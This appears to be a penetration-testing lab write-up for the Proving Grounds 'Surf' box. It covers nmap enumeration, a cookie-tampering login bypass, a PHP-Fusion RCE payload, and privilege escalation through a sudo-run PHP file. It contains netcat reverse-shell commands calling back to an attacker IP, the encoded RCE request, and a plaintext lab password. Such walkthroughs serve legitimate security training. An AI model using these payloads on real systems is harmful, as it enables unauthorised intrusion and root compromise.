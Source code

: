 #### Enumeration

```
# Nmap 7.91 scan initiated Sun Nov 14 05:24:04 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/xml/_full_tcp_nmap.xml 192.168.73.171
Increasing send delay for 192.168.73.171 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 192.168.73.171 from 5 to 10 due to 11 out of 22 dropped probes since last increase.
Warning: 192.168.73.171 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.73.171
Host is up, received user-set (0.21s latency).
Scanned at 2021-11-14 05:24:05 EST for 1150s
Not shown: 65529 closed ports
Reason: 65529 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp    open     http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Surfing blog
25803/tcp filtered unknown no-response
40073/tcp filtered unknown no-response
42514/tcp filtered unknown no-response
58164/tcp filtered unknown no-response
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/14%OT=22%CT=1%CU=41788%PV=Y%DS=2%DC=T%G=Y%TM=6190E8
OS:43%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%II=I%TS=A)OPS(O1=
OS:M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7
OS:%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y
OS:%DF=Y%T=40%W=FAF0%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G
OS:%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 3.956 days (since Wed Nov 10 06:47:01 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   209.35 ms 192.168.49.1
2   208.30 ms 192.168.73.171

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 05:43:15 2021 -- 1 IP address (1 host up) scanned in 1151.78 seconds

```

After browsing for a while, the website looks nothing interesting. We use feroxbuster to discover new content.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_11h00m37s_001_.png)

We find a administration directory that is a login page. Using hydra with username ```admin``` to try to brute force a valid credential but failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_11h01m56s_002_.png)

I use Burp Sutie for further analysis. There is an interesting setting in login page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_11h02m39s_003_.png)

We decode auth_status base64 string and get a string ```{'success':'false'}```. 

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_11h03m30s_004_.png)

Trying to modify it to bypass the login verification.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_13h15m30s_005_.png)

We log in successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_13h19m42s_006_.png)

The ```Check Server Status``` page can check that the server where is installed PHP-Fusion is correctly running.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_14h00m22s_007_.png)

I found an RCE [vulnerability](https://www.exploit-db.com/exploits/49911) related to PHP-Fusion. Refer to the vulnerability description we create a new request payload to try to get the reverse shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_14h28m33s_008_.png)

Encoding the connection string to base64 format and make sure to add spaces to avoid ```+``` or ```=```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_15h49m48s_009_.png)

```
echo "nc -e /bin/bash 192.168.49.162 80  " | base64
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_16h07m15s_010_.png)

We now combine request and base64 strings and modify the request url in Burp Suite.

```
http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=${system(base64_decode(bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTYyIDgwICAK))}
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_16h22m10s_011_.png)

Sending the request to the server and get the shell successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_16h31m46s_012_.png)

#### Privilege Escalation

After searching for a while, I find there is a file in ```/var/www/server/administration/config/config.php``` includes the password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_16h55m46s_013_.png)

We use the username ```james``` and password ```FlyToTheMoon213!``` to log in via ssh.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_16h57m01s_014_.png)

Running the linpeas script and find james can run follow command as root.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_17h02m58s_015_.png)

We have to check the file permission.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_17h05m35s_016_.png)

Because user ```www-data``` can modify file. We reconnect to www-data session shell and change the codes. 

```
echo "<?php system(\"nc -e /bin/bash 192.168.49.162 80\"); ?>" >  /var/backups/database-backup.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_17h31m28s_017_.png)

Executing the php file with sudo in ```james``` session shell.

```
sudo /usr/bin/php /var/backups/database-backup.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_17h31m55s_018_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Surf/Surf_2021.11.21_17h32m21s_019_.png)
